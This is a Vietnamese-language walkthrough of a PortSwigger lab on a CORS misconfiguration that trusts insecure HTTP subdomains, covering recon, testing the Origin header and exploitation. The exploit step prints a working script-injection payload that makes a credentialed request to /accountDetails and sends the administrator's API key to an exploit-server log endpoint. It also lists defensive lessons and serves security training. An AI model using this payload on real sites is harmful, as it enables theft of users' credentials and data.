






# Write-ups: CORS vulnerability with trusted insecure protocols

### Tổng quan
Khai thác lỗ hổng Cross-Origin Resource Sharing (CORS) trong ứng dụng, nơi cấu hình CORS cho phép các origin từ giao thức HTTP không an toàn (subdomain tin cậy như `http://stock.<lab-id>.web-security-academy.net`) truy cập tài nguyên nhạy cảm với `Access-Control-Allow-Credentials: true`. Ứng dụng không kiểm tra nghiêm ngặt origin, cho phép tiêm mã JavaScript qua chức năng kiểm tra kho (`check stock`) trên subdomain tin cậy, lấy thông tin tài khoản administrator (bao gồm `apikey`) và gửi đến máy chủ của kẻ tấn công. Sử dụng payload trong Exploit Server để khai thác và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CORS bằng cách sử dụng subdomain tin cậy với giao thức HTTP để tiêm mã JavaScript, lấy thông tin tài khoản administrator (`apikey`) từ endpoint `/accountDetails`, gửi đến máy chủ của kẻ tấn công và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và gửi yêu cầu GET đến `/accountDetails`:
- Phản hồi:
    ```json
    {
    "username": "wiener",
    "email": "",
    "apikey": "gM2spVpigtUmjZuNbn8brAJ2lQ6aIf8l",
    "sessions": [
        "4ONIel3mlfmKZ9wZlSVTyB3SEfBQKdvP"
    ]
    }
    ```
    - `Header`: `Access-Control-Allow-Credentials: true`, cho thấy ứng dụng cho phép gửi cookie phiên trong các yêu cầu cross-origin.
    - Không có `Access-Control-Allow-Origin` trong phản hồi mặc định:
    

2. **Kiểm tra cấu hình CORS**
- Gửi yêu cầu GET `/accountDetails` đến Burp Repeater, thêm header `Origin: http://trusted-subdomain.0a0200110347f2008220ec3e005200e0.web-security-academy.net`:
- **Phản hồi**:
    - Header: `Access-Control-Allow-Origin: http://trusted-subdomain.0a0200110347f2008220ec3e005200e0.web-security-academy.net`
    - Xác nhận lỗ hổng CORS: ứng dụng cho phép origin từ subdomain tin cậy với giao thức HTTP và gửi cookie phiên (`Access-Control-Allow-Credentials: true`):
        

3. **Tìm subdomain tin cậy**
- Kiểm tra chức năng "Check stock" trong ứng dụng, quan sát yêu cầu:
    - **Phản hồi**: Redirect đến `http://stock.0a0200110347f2008220ec3e005200e0.web-security-academy.net/?productId=1&storeId=1`, xác nhận `stock.<lab-id>.web-security-academy.net` là subdomain tin cậy:
        

4. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để tiêm mã JavaScript qua URL `check stock` trên subdomain tin cậy:
    ```html
    <script>
    document.location="http://stock.0a0200110347f2008220ec3e005200e0.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a0200110347f2008220ec3e005200e0.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a91004403cef2f8825febab01130060.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
    ```
    
- **Ý tưởng payload**:
    - Chuyển hướng trình duyệt đến URL check stock trên subdomain tin cậy (`stock.<lab-id>`), tiêm mã JavaScript qua tham số `productId`.
    - Mã JavaScript sử dụng `XMLHttpRequest` để gửi yêu cầu GET đến `/accountDetails` với `withCredentials=true`, lấy thông tin tài khoản (bao gồm `apikey`) của người dùng hiện tại (`administrator`).
    - Hàm `reqListener` gửi phản hồi (`responseText`) đến endpoint `/log` trên Exploit Server.

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - Kết quả: Thông tin tài khoản được gửi đến `/log?key=...`, bao gồm `apikey`: `52q5Hczf3eV1hSHc2tso7B9rTfBkSAJq`:
        

- Submit `apikey` (`52q5Hczf3eV1hSHc2tso7B9rTfBkSAJq`) trong giao diện lab để hoàn thành:
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CORS bằng cách sử dụng subdomain tin cậy với giao thức HTTP để tiêm mã JavaScript, lấy thông tin nhạy cảm từ endpoint `/accountDetails` thông qua `XMLHttpRequest` với `withCredentials=true`.
- Nhận thức tầm quan trọng của việc cấu hình CORS nghiêm ngặt (giới hạn `Access-Control-Allow-Origin`, ưu tiên HTTPS), kiểm tra chặt chẽ các `origin` tin cậy, và bảo vệ chống lại JavaScript injection trên các endpoint như `check stock` để ngăn chặn các cuộc tấn công CORS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng CORS bằng cách lợi dụng cấu hình yếu với subdomain tin cậy sử dụng giao thức HTTP, nhấn mạnh tầm quan trọng của việc hạn chế `Access-Control-Allow-Origin`, sử dụng HTTPS, và bảo vệ chống JavaScript injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*